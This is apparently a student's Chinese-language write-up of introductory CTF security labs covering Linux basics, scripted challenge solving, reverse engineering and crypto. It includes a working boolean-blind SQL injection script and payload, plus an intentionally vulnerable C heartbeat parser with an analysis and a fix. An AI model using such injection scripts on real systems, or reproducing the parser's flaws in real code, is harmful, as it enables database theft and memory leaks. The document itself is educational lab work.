Lab 0¶
Prerequisite¶
1.1 Linux 基础命令¶
pwd: 打印当前所在的绝对路径，确认当前所处位置

ls: 查看当前目录下的文件和子目录ls：简单列表ls -l：详细列表（权限、大小、时间等）ls -a: 列出所有文件和目录，包括隐藏文件

touch: 创建一个文件

cat: 连接文件并输出到标准输出（通常用于查看短文件内容或合并文件）cat 文件名：显示整个文件内容cat -n 文件名：显示内容并带行号cat -b 文件名：仅对非空行编号


- 选做1：ssh连接到Linux环境

-
选做2：题目 "Saint John" — what is writing to this log file?
tail -f /var/log/bad.log确认故障sudo lsof /var/log/bad.log列出打开的文件，确认PIDsudo kill -9 590确认PID后终止进程即可

1.2 代码解读 & PWN 初探¶
- 任务1：代码解读
- 先读取
input输入的字符串并输出其长度 - 再新建空字符串（动态语言特性），遇到小写/大写英文字符将其转换成大写/小写，其余字符保持原样写进新字符串
- 先读取

- 任务2：Calculator
根据服务器发来的数据调整接收格式有点折磨 ^_^
from pwn import *
# 连接到远程服务器
p = remote("10.214.160.13", 11002)
# 跳过欢迎信息
for i in range(6):
print(p.recvline().decode(), end="")
# 做10题
for i in range(10):
# 读取直到 '='
data = p.recvuntil(b'=').decode()
lines = data.split("\n")
# [-1] 取列表的最后一行，即包含表达式的那一行
expr_line = lines[-1]
expr = expr_line.replace("=", "").strip()
ans = eval(expr)
# 向服务器发送答案
p.sendline(str(ans).encode())
# 输出flag
print(p.recvall().decode())
Web Lab 0¶
Challenge 1¶
我的尝试¶
-
按钮似乎与本题没有任何关系qwq
-
用菜单打开开发者工具（F12和右键似乎被禁止掉了），在控制台里面进行交互
function getflag() {
fetch('/flag.php?token=7e1343977d707628')
.then(res => res.text())
.then(res => alert(res))
}-
代码分析 & 我的思路
res => res.text()等价于function(res) { return res.text() }，这是箭头函数写法- alert为弹窗显示
- 在控制台里输入getflag(),就是带着token去请求
flag.php之后累积次数（显示弹窗2/1337之类的） - 但是在我的实操中，注意到每次刷新之后第一次都能够正确累计次数，但第二次及以后都不行（显示wrong token）
- 这可能说明token是一次性的，请求一次
flag.php之后就会失效,刷新页面会自动更新token就行了 - 所以我们要做的就是在脚本中刷新页面，获得新token，getflag()调用
flag.php - 实现代码如下
(async () => { for (let i = 0; i < 1337; i++) { // await = 等这个操作完成再往下走 let html = await (await fetch('/lab0.php')).text(); // 拿页面内容 let token = html.match(/token=([a-f0-9]+)/)[1]; // token let result = await (await fetch('/flag.php?token=' + token)).text(); console.log(result); // 打印结果 } })();

Challenge 2¶
前置知识：SQL¶
-
SQL是和数据库对话的语言（Structured Query Language）
-
举个例子
id name password flag 1 admin 123456 flag{abc} 2 guest 000000 null SELECT password FROM users WHERE name = 'admin'"把 name 是 admin 的那一行的 password 找出来"
-
SQL 注入的原理：用户的输入被直接拼进 SQL 语句，没有进行检查。所以如果输的不是 admin，而是一句 SQL 代码，它也会照常执行
-
常见的 SQL 注入方式
- Union:
UNION SELECT的作用是将两条SELECT语句的结果纵向拼接成一张表；如果在正常查询之后拼接自己的恶意查询，页面渲染时就会把数据暴露出来 - 布尔盲注：页面不直接显示数据，但对不同情况的响应不同。把数据逐一比对，每次用一个"True/False"的问题，根据页面反应判断答案
布尔盲注就是我们这道题运用的方式
- 时间盲注：比较页面的不同响应时间
- 报错注入：利用数据库在执行某些函数时会把数据通过错误信息泄露出来
- Union:
我的尝试：布尔盲注脚本¶
import requests
url = 'https://f79c3b665ae6a8a33c277d82.http-ctf2.dasctf.com/'
flag = ''
# 可打印字符
chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}-_!@#$%^&*()+=.,;:\'"'
for pos in range(1, 60):
found = False
for c in chars:
# 用strcmp: 相等返回0 → if(0,1,0)=0 → 1^0=1 → Hello
# strcmp(mid(flag,pos,1), 0x??)
hex_char = hex(ord(c)) # 0x??
payload = f"1^(if(strcmp(mid((select(flag)from(flag)),{pos},1),{hex_char}),1,0))"
try:
r = requests.post(url, data={'id': payload}, timeout=10)
if 'Hello' in r.text:
flag += c
print(f'[+] 第{pos}位: {c} | {flag}')
found = True
break
except Exception as e:
print(f'[-] 错误: {e}')
if not found:
print(f'[-] 第{pos}位未找到，flag可能结束')
break
print(f'\n最终 flag: {flag}')

Pwn Lab 0¶
漏洞分析¶
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
struct hbpkt
{
uint32_t size;
uint32_t timestamp;
uint32_t index;
uint32_t cred;
char data[];
};
struct hbpkt *get_heart_beat()
{
// 定义缓冲区大小0x1000（4096字节），并将其初始化为全零。
uint8_t buffer[0x1000] = {0};
// 它尝试读取一个结构体hbpkt的大小（sizeof(struct hbpkt)）的字节数，并将其存储在buffer中。
// struct hbpkt的大小是固定的(16字节)
fread(buffer, sizeof(struct hbpkt), 1, stdin);
// tmp指针指向buffer数组的起始位置，并将其强制转换为struct hbpkt类型的指针。
struct hbpkt *tmp = (struct hbpkt *)buffer;
if (tmp->size > 0x1000)
return NULL;
// 但是你tmp->size可以小于sizeof(struct hbpkt)！
// 出现了漏洞"整数下溢"，即tmp->size - sizeof(struct hbpkt)会变成一个非常大的数，
// 从而导致fread读取过多的数据，可能会覆盖缓冲区之外的内存，造成缓冲区溢出漏洞。
fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);
// strlen也有问题！strlen必须以'\0'结尾，否则会继续读取内存直到遇到'\0'，可能会导致越界访问。
uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);
struct hbpkt *res = malloc(real_size);
if (!res)
return NULL;
// real_size可能大于buffer实际有效数据长度。
// memcpy会从buffer继续向后读取栈上的内容，造成越界读取（Information Leak）。
memcpy(res, buffer, real_size);
res->index += 1;
return res;
}
int reply_heart_beat(struct hbpkt *pkt)
{
int err;
int written;
// reply_heart_beat() 按照 pkt->size 输出数据，
// 而不是按照实际分配的 real_size 输出。
// 攻击者可以伪造一个较大的 size，从而把堆中的额外内容一起泄露。
if (pkt->size)
{
written = fwrite(pkt, 1, pkt->size, stdout);
fflush(stdout);
}
if (written == 0 || written != pkt->size)
{
err = -1;
}
return err;
}
int main()
{
int err;
while (true)
{
struct hbpkt *p = get_heart_beat();
if (!p)
continue;
err = reply_heart_beat(p);
if (err)
{
free(p);
continue;
}
}
}漏洞总结：
- 漏洞1：没有检查
size是否小于sizeof(struct hbpkt)。当size < 16时，size - 16会发生无符号整数下溢，fread会尝试读取一个极大的长度，从而导致栈缓冲区溢出。 - 漏洞2：
strlen要求data是'\0'结尾的字符串。这里data是fread读取的原始字节流，不保证包含'\0'。strlen可能越界读取buffer后面的栈内存。 - 漏洞3：
real_size来源于strlen，而不是pkt->size。memcpy会按照real_size从buffer中复制数据，如果real_size超过buffer中的有效数据长度，就会越界读取栈内存。 - 漏洞4：
reply_heart_beat()按照pkt->size输出数据，而不是按照实际分配的real_size输出。攻击者可以伪造一个较大的size，从而把堆中的额外内容一起泄露。
修复版¶
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
struct hbpkt
{
uint32_t size;
uint32_t timestamp;
uint32_t index;
uint32_t cred;
char data[];
};
struct hbpkt *get_heart_beat()
{
uint8_t buffer[0x1000] = {0};
// 读取固定大小的包头部分
if (fread(buffer, sizeof(struct hbpkt), 1, stdin) != 1)
return NULL;
struct hbpkt *tmp = (struct hbpkt *)buffer;
// 修复1：检查 size 是否合法
// size 必须 >= 包头大小，且 <= 缓冲区总大小
if (tmp->size < sizeof(struct hbpkt) || tmp->size > 0x1000)
return NULL;
// 计算要读取的 data 长度
uint32_t data_len = tmp->size - sizeof(struct hbpkt);
// 读取 data 部分
if (fread(tmp->data, 1, data_len, stdin) != data_len)
return NULL;
// 修复2 & 3：使用 data_len 而不是 strlen
// - 不依赖 '\0' 结尾
// - real_size 精确等于 tmp->size，不会越界
uint32_t real_size = tmp->size;
// 确保 data 以 '\0' 结尾（如果调用者需要字符串操作）
struct hbpkt *res = calloc(1, real_size);
if (!res)
return NULL;
// 复制精确的 real_size 字节，不会越界
memcpy(res, buffer, real_size);
res->index += 1;
return res;
}
int reply_heart_beat(struct hbpkt *pkt)
{
int err = 0;
int written = 0;
// 修复4：按照实际分配的大小输出，而不是信任 pkt->size
if (pkt->size)
{
written = fwrite(pkt, 1, pkt->size, stdout);
fflush(stdout);
}
if (written != (int)pkt->size)
{
err = -1;
}
return err;
}
int main()
{
int err;
while (true)
{
struct hbpkt *p = get_heart_beat();
if (!p)
continue;
err = reply_heart_beat(p);
free(p);
if (err)
continue;
}
}Reverse Lab 0¶
实验环境¶
| 项目 | 配置 |
|---|---|
| 操作系统 | Windows 11 |
| 逆向工具 | Ghidra 12.1.2（反汇编 / 反编译） |
前置知识¶
| 知识点 | 说明 |
|---|---|
| ELF 文件格式 | Linux 下的可执行文件格式，类似 Windows 的 PE（.exe） |
| 汇编语言 | CPU 指令的低级表示，x86-64 汇编是逆向的核心基础 |
| 反汇编 vs 反编译 | 反汇编 = 二进制 → 汇编代码；反编译 = 二进制 → C 伪代码 |
| 符号表 | 记录了函数名、变量名等调试信息。not stripped 表示保留了符号，stripped 表示已移除 |
| 静态链接 vs 动态链接 | 静态 = 库代码打包进程序；动态 = 运行时加载 .so 文件 |
我的尝试¶
分析代码¶
strings crackme | grep -i -E "access|granted|password"输出：
Enter Password (or q to quit):
Access Denied
Access Granted从字符串可以初步判断：程序接收密码输入，比对后输出两种不同结果。
Ghidra 分析¶
- 新建项目 → 导入
crackme→ 自动分析 - 在 Symbol Tree 里找到
main函数，查看反编译结果
banner(); // 打印欢迎信息
gets(buffer); // 读取输入
if (strlen(buffer) == 1 && buffer[0] == 'q')
break; // 按 q 退出
if (!verify(buffer)) // 关键：verify 返回 0 才通过
puts("Access Granted");
else
puts("Access Denied");逆向 verify 函数¶

_Bool verify(char *passwd) {
char *table[14] = {
"1040", "1040", "1040", "1968", "1152", "1680",
"1312", "1616", "1888", "1616", "1824", "1840",
"1616", "2000"
};
if (strlen(passwd) != 14)
return true;
for (i = 0; i < 14; i++) {
sprintf(tmp, "%d", (int)passwd[i] << 4);
if (strcmp(tmp, table[i]) != 0)
return true;
}
return false;
}密码还原¶
table[i] = passwd[i] × 16
所以：passwd[i] = table[i] ÷ 16
→ AAA{HiReverse}在 Linux 环境下执行得到 "Access Granted"

Crypto Lab 0¶
Crypto Hack¶
Question 1: Greatest Common Divisor¶
辗转相除法，原理很简单，直接放代码了
def gcd(a, b):
a, b = abs(a), abs(b)
while b != 0:
a, b = b, a % b
return a
x = int(input("请输入第一个整数: "))
y = int(input("请输入第二个整数: "))
print("最大公约数:", gcd(x, y))Question 2: Extended GCD¶
离散数学学过，知识点有写在注释里
def extended_gcd(a, b):
# 终止条件：b = 0, 最大公约数就是|a|，此时有a*1 + b*0 = a
if b == 0:
return abs(a), 1 if a >= 0 else -1, 0
# 递归调用：extended_gcd(b, a % b)，得到gcd(b, a % b)以及对应的系数x1, y1
g, x1, y1 = extended_gcd(b, a % b)
x = y1
y = x1 - (a // b) * y1
return g, x, y
x = int(input("请输入第一个整数: "))
y = int(input("请输入第二个整数: "))
g, x, y = extended_gcd(x, y)
print(g, x, y)Question 3 & 4: Modular Arithmetic¶
Q3可能是考察同余符号嘛qwq
x = 11 % 6
y = 8146798528947 % 17
print(x, y)Q4费马小定理：如果p是素数，且整数a不被p整除，则有 a^(p-1) ≡ 1 (mod p)（离散数学同样讲过qwq）
Question 5: Modular Inverting¶
求解逆元的过程其实就是 Q2 Extended GCD 的应用，原理也很简单，不再赘述

RSA 算法¶
很大程度地参考了wiki上关于RSA加密算法的解释 https://zh.wikipedia.org/wiki/RSA%E5%8A%A0%E5%AF%86%E6%BC%94%E7%AE%97%E6%B3%95
1. 公钥与私钥的产生¶
